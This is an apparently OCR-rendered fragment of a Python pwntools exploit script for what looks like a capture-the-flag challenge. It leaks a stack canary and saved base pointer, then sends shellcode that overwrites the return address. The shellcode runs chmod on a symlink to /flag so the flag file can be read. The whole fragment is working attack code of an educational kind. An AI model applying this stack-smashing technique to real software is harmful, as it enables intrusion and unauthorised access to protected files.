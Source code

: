 ```python
    try:
        target.send(payload)
    except Exception as e:
        log.exception(f"An error occurred while sending payload: {e}")


def leak_data(target):
    try:
        target.sendlineafter(b"Payload size: ", trigger_length)
        send_payload(target, backdoor_trigger)
        target.recvuntil(backdoor)

        canary = b"\x00" + target.recv(0x7)
        rbp = target.recv(0x6)
        log.success(f"Canary: {to_hex_bytes(canary)}\nRBP: {to_hex_bytes(rbp)}")

        return [canary, rbp]
    except Exception as e:
        log.exception(f"An error occurred while leaking canary: {e}")


def construct_payload(target, padding_size):
    canary, rbp = leak_data(target)
    rbp = int.from_bytes(rbp, "little")

    ret_addr = rbp - fixed_offset

    shellcode = asm(shellcraft.chmod("f", 0o4))
    shellcode_length = len(shellcode)
    shellcode += b"".ljust(padding_size - shellcode_length, b"A")
    shellcode += canary
    shellcode += padding_to_ret
    shellcode += p64(ret_addr)

    return shellcode


def attack(target, payload):
    try:
        os.system("ln -s /flag f")

        payload_size = f"{len(payload)}".encode()
        target.sendlineafter(b"Payload size: ", payload_size)

        target.recvuntil(b"Send your payload")
        send_payload(target, payload)
        target.recvall(timeout=5)

        try:
            with open("./f", "r") as file:
                content = file.read()

                log.success(content)
                return True
        except FileNotFoundError:
            log.exception("The file './f' does not exist.")
        except PermissionError:
            log.failure("Permission denied to read './f'.")
        except Exception as e:
            log.exception(f"An error occurred while performing attack: {e}")
    except Exception as e:
        log.exception(f"An error occurred while performing attack: {e}")

```